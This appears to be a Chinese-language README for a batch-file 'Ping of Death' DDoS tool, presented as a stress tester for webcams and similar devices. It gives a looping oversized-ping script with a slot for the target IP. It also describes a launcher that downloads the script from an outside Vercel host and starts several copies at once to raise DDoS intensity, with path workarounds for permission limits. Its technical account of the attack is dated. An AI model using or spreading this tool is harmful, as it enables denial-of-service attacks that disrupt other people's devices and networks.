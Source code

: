 # Ping of Death：使用bat进行DDOS  
## 介绍
“Ping of Death” 是一个通过bat批量处理文件来进行DDOS的项目，你可以用它来进行对网络摄像头等小型设备进行压力测试。
## 下载
### pingofdeath.bat
我们提供**单个执行文件**，您可以使用它在**断开互联网**的情况下使用。[点击这里下载pingofdeath.bat](https://pingofdeath.vercel.app/pingofdeath.bat)  
### startofping.bat
同时，在**联网的情况**下我们也提供更高效的启动器，集成**下载**和**运行**功能。在默认情况下，你最多可以通过它一次**启动10个**pingofdeath.bat。你可以[点击这里下载startofping.bat](https://pingofdeath.vercel.app/startofping.bat)  
## 配置
startofping.bat并不需要特别配置，您只需要配置pingofdeath.bat即可。  
这里提供源代码参考，你只需要**替换你的目标IP**即可。

    :loop
    ping <填写你的IP> -l 65500 -w 1 -n 1
    goto :loop
****
## 解读  
### pingofdeath.bat  
ping 数据包也可以通过向目标 IP 地址发送连续的 ping 数据包来执行拒绝服务攻击。持续 ping 会导致目标系统的缓冲区溢出，并导致目标系统崩溃。   
一个 ping 数据包的大小通常为 56 字节或 84 字节（包括 IP 标头）。但是，一个 ping 数据包也可以最大为 65,536 字节。  
并非所有计算机都可以处理大于固定大小的数据。因此，当一个 ping of death 数据包从源计算机发送到目标计算机时，ping 数据包会被分割成更小的数据包组。  
一个片段大小为 8 个八位字节。当这些数据包到达目标计算机时，它们会分段到达。因此，目标计算机重新组装成块收到的格式错误的数据包。  
但是，整个组装的数据包会导致目标计算机的缓冲区溢出。  
这种缓冲流经常导致系统崩溃，使系统更容易受到攻击。  
### startofping.bat
这是pingofdeath.bat的启动器，它包括下载和运行两种功能。
下载功能很简单，[百度知道](https://zhidao.baidu.com/question/2015853793461382908.html)里面有回答。  
但是值得注意的是，如果你使用了上面的代码，我们需要稍作修改，因为这可能会遇到权限问题，具体在下面说明。  
考虑到大部分用户会把文件放在C盘（桌面），我们没有管理员权限，所以就制定了两种下载方案。
####  1.放在D盘  
考虑到不同系统对于C盘权限要求不同，我们选择把文件放在D盘。  


    ::设置文件保存目录，若下载至当前目录，请留空  
    set Save=D:\
注意，上面的代码会创建一个DownloadFile.vbs文件来下载startofping.bat。由于权限问题，我们需要指定路径。

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>D:\DownloadFile.vbs
最后，我们需要启动下载的文件。我们在这里重复5次来加大DDOS效率。  

    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
####  2.放在C盘
考虑到极个别电脑只有C盘一个盘符（虽然这种可能性极小），我们还是准备了C盘方案。经检验，Windows11系统的C:\Users\Public\是可以无权限使用的。所以同理：  

    ::设置文件保存目录，若下载至当前目录，请留空
    set Save=C:\Users\Public\
更改DownloadFile.vbs文件指定路径。

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>C:\Users\Public\DownloadFile.vbs
最后，我们启动下载的文件。  

    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
至此，代码就解读完成了。 
**** 
## 存放服务器
由于GitHubPage好像禁止了直接通过http下载文件，我们就使用了vercle服务，文件直接从vercel服务器获取pingofdeath.bat。  
****
作者的，[博客](https://gloridust.tk)